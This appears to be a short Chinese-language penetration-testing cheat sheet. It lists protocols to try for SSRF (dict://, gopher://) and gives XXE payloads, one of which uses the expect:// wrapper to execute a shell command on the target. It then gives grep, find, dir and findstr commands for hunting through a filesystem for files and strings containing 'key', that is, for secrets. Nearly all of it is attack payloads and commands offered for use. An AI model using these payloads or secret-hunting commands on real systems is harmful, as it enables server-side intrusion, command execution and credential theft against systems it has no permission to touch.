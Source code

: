 - SSRF常用的协议都可以试试

```
dict://
gopher://
```

- 特殊语法

```xml
<!DOCTYPE root [
    <!ENTITY % aaa SYSTEM "data://text/plain,abdef">
    %aaa;
]>
<root></root>
```

- expect协议执行命令

```xml
<!DOCTYPE foo [<!ENTITY bar SYSTEM "expect://ls$IFS-la">]><foo>&bar;</foo>
```

## 暴力检索

```shell
grep -r "key:" <ROOT_PATH>

find <ROOT_PATH> -name "*key*" -type f
```

```cmd
dir /s /b *key*

findstr /s /i /c:"key" *

# 默认当前目录 需要指定目录的话
# cd <ROOT_PATH> & <CMD>
```